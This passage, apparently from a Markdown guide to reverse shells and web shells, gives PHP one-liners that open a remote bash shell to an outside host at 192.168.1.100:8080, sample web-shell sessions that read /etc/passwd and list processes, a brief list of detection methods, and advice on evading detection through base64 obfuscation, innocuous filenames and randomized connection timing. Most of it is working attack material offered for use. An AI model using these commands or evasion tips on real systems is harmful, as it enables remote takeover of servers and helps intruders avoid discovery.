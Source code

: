#### Alternative Shell Commands
```php
# Using bash instead of sh
php -r '$sock=fsockopen("192.168.1.100",8080);passthru("/bin/bash <&3 >&3 2>&3");'

# Using specific shell with interactive mode
php -r '$sock=fsockopen("192.168.1.100",8080);passthru("/bin/bash -i <&3 >&3 2>&3");'
```

### Web Shell Examples

#### Basic Command Execution
```
Command: whoami
Output: www-data

Command: pwd
Output: /var/www/html

Command: ls -la
Output: total 8
drwxr-xr-x 2 www-data www-data 4096 Jan 1 12:00 .
drwxr-xr-x 3 root     root     4096 Jan 1 12:00 ..
-rw-r--r-- 1 www-data www-data  123 Jan 1 12:00 shell.php
```

#### System Information Commands
```
Command: uname -a
Output: Linux server 4.19.0-10-amd64 #1 SMP Debian 4.19.132-1 (2020-07-24) x86_64 GNU/Linux

Command: cat /etc/passwd
Output: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...

Command: ps aux
Output: USER       PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root         1  0.0  0.0  22540  1000 ?        Ss   Jan01   0:01 /sbin/init
...
```

---

## 4. Security Considerations

### Detection Methods
- **Reverse Shells:** Network monitoring, IDS/IPS systems, firewall logs
- **Web Shells:** File integrity monitoring, web application firewalls, antivirus software

### Obfuscation Techniques
- **Code Obfuscation:** Use base64 encoding, string concatenation, or variable substitution
- **File Naming:** Use inconspicuous filenames that blend with legitimate files
- **Timing:** Implement delays or random intervals between connections
